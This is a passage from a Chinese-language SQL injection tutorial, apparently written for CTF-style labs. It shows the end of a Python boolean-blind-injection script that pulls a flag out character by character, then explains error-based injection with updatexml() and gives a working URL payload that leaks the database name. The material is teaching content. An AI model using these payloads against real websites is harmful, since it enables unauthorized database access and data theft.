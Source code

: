 ```python
            flag += s
            # 最后一次成功拼接作为开始，判断超时
            start = time.time()
            print(f"[#]------{flag}")
            break
        else:
            pass
    end = time.time()
    # 目标服务器性能可能存在差距，适当调整超时时间
    try:
        if (end-start)>1.5:
            if flag != "":
                print("盲注结束，检查flag是否是预期结果！")
            else:
                print("检测到长时间没有再获取到响应，该脚本布尔盲注可能并不适配退出")
            exit()  
    except NameError:
        print("在第一轮循环中未找到合适的开始字符，检查环境是否适合布尔盲注或扩充flags变量(可能出现的字符")
```

### 报错注入


主播主播，你的布尔盲注确实很强，但还是太痴操作了，有没有更简单一点的？

有的兄弟，有的。既然页面在语法错误时会报错，那么还可以使用报错注入来回显结果

使用`updatexml()`、`extractvalue()`、`floor()`等函数，可以回显错误信息，实现爆库爆表爆列爆数据

看一下这个函数用法

![2441](/medias/show-sql/2441.png)

::: tip
报错注入为什么存在错误，还能返回部分语句的结果？

sql先检查是否存在语法错误，如果没有，先执行子查询，在进行updatexml函数的调用，最后因为updatexml函数的参数类型错误，导致抛出错误，在报错中，带出了子查询的结果
:::

流程：

- 检查语法
- 执行子查询
- 执行updatexml函数
- updatexml函数参数类型错误，抛出错误

例如下面这句，不存在语法错误，执行`database()`函数子查询`select database()`，再执行`concat()`函数，最后再拼接时，`updatexml`函数使用了错误的参数类型，报错:

```sql
select updatexml(1,concat(0x7e,database(),0x7e),1)
```


爆库

```sql
?id=0' and updatexml(1,concat(0x7e,database(),0x7e),1)%23
```
